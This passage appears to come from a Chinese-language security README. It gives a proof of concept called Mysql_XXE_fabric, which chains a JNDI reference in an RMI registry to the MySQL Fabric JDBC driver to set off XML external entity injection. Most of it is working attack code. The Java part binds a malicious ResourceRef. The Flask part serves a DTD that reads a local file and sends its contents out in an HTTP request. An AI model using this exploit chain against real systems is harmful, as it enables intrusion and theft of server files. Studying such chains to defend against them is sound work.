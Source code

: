 又或者是其他的链子都可以使用

###### Mysql_XXE_fabric poc

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:mysql:fabric://127.0.0.1:5000";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "com.mysql.fabric.jdbc.FabricMySQLDriver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//flask
from flask import Flask

app = Flask(__name__) 

@app.route('/xxe.dtd', methods=['GET', 'POST'])
def xxe_oob():
	return '''<!ENTITY % aaaa SYSTEM "file:///E:/src.txt">
		<!ENTITY % demo "<!ENTITY bbbb SYSTEM
		'http://127.0.0.1:9999?data=%aaaa;'>"> %demo;'''

@app.route('/', methods=['GET', 'POST'])
def dtd():
	return '''<?xml version="1.0" encoding="UTF-8" ?>
		<!DOCTYPE ANY [
		<!ENTITY % xd SYSTEM "http://127.0.0.1:5000/xxe.dtd"> %xd;]>
		<root>&bbbb;</root>'''

if __name__ == '__main__':
	app.run()
```

![image-20220808140327166](README/image-20220808140327166.png)
